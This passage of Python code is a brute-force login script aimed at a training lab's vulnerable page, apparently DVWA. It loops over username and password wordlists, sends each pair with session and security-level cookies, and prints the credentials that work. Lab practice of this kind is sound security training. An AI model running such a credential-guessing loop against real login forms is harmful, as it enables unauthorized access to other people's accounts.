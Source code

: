 ```python
    cookie = {
        "PHPSESSID": session_id,
        "security": sec_level
    }

    try:
        # Make the request to the URL
        #print("\n[i] URL: %s/vulnerabilities/brute/" % target)
        #print("[i] Data: %s" % data)
        #print("[i] Cookie: %s" % cookie)
        r = requests.get("{0}/vulnerabilities/brute/".format(target), params=data, cookies=cookie, allow_redirects=False)

    except:
        # Feedback for the user (there was an error) & Stop execution of our request
        print("\n\n[!] url_request: Failed to connect (URL: %s/vulnerabilities/brute/).\n[i] Quitting." % (target))
        sys.exit(-1)

    # Was it a ok response?
    if r.status_code != 200:
        # Feedback for the user (there was an error again) & Stop execution of our request
        print("\n\n[!] url_request: Page didn't response correctly (Response: %s).\n[i] Quitting." % (r.status_code))
        sys.exit(-1)

    # We have what we need
    return r.text


# Main brute force loop
def brute_force(session_id):
    # Load in wordlists files
    with open(pass_list) as password:
        password = password.readlines()
    with open(user_list) as username:
        username = username.readlines()

    # Counter
    i = 0

    # Loop around
    for PASS in password:
        for USER in username:
            USER = USER.rstrip('\n')
            PASS = PASS.rstrip('\n')

            # Increase counter
            i += 1

            # Feedback for the user
            print("[i] Try %s: %s // %s" % (i, USER, PASS))

            # Make request
            attempt = url_request(USER, PASS, session_id)
            #print attempt

            # Check response
            if success in attempt:
                print("\n\n[i] Found!")
                print("[i] Username: %s" % (USER))
                print("[i] Password: %s" % (PASS))
                return True
```